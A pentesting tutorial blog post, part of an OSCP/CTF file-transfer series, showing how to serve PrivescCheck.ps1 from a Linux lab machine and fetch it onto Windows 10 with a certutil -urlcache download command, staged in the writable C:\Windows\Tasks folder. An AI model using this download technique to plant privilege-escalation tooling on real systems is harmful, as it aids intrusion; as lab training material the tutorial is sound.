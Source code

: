 ```yaml
---
layout: post
title: 'File Transfers - Part 2: Linux To Windows'
date: '2022-10-22 17:57:48 +0100'
categories: [Tutorial, OSCP]
tags: [linux, windows, oscp, python, file-transfer, pentesting, code, tutorial, ctf]
---
```


This is part of a series of tutorials on file transfer methods for pentesting and CTF scenarios.

# Linux to Windows File Transfer

In this tutorial, we will cover the use of `certutil.exe` for transferring a file from Linux to a Windows system.

## Scenario

We have a Windows and a Linux system connected to the same local network.

UBUNTU LINUX - 192.168.56.103<br>
WINDOWS 10 - 192.168.56.104

- We want to transfer the file `PrivescCheck.ps1` from LINUX to the WINDOWS system

![file-to-transfer](/assets/img/file-transfers-2/file-to-transfer.png)

- We will transfer the file to `C:\Windows\Tasks` on WINDOWS, since our fresh WINDOWS 10 install gives members of the **Authenticated Users** group write permissions on this directory, and it is currently empty.

![icacls-tasks](/assets/img/file-transfers-2/icacls-tasks.png)
<br>
![empty-dir](/assets/img/file-transfers-2/empty_dir.png)

In order to transfer a file FROM a Linux machine, we need to make it accessible to a remote machine. 
There are a number of ways we can do this. However, for this tutorial we will be using the **Python HTTP Server**.
We covered how to do this in [File Transfers: Part 1](https://dev-0x0.github.io/posts/file-transfers).

## Transferring the File

On our Linux system, we serve the file using the **Python HTTP Server.**

![serve-file](/assets/img/file-transfers-2/serve-file.png)

There are multiple ways we can transfer the file to the Windows system. It's important to know the different methods you can use, as sometimes a system has been configured such that some options are unavailable to you. Therefore, it's good to have as many tools in your toolkit as possible. In this tutorial, we will use the Windows `certutil` tool.

### Certutil.exe

According to [Microsoft](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/certutil), "Certutil.exe is a command-line program, installed as part of Certificate Services". It is generally installed on Windows systems by default. However, we can use **certutil** to transfer files using the following command from our WINDOWS system. Providing a specific download location at the end of the command is generally optional, but may be necessary in certain situations.

`certutil -urlcache -split -f http://192.168.56.102:8000/PrivescCheck.ps1 [DOWNLOAD LOCATION]`
![certutil](/assets/img/file-transfers-2/certutil.png)

Listing the directory on WINDOWS, we can see that the file transferred successfully.

Looking at our **Python HTTP Server** on Linux, we can see the GET request that was made by **certutil**.
Sometimes there are two requests, that's okay.
![get-req1](/assets/img/file-transfers-2/get-req1.png)

## Conclusion

`Certutil.exe` is a very useful tool for file-transfers to Windows systems. Hopefully if you're reading this,
you found something of use here. Please check out the other [File-Transfer tutorials](https://dev-0x0.github.io/tags/file-transfer/) for more. Thanks for reading!









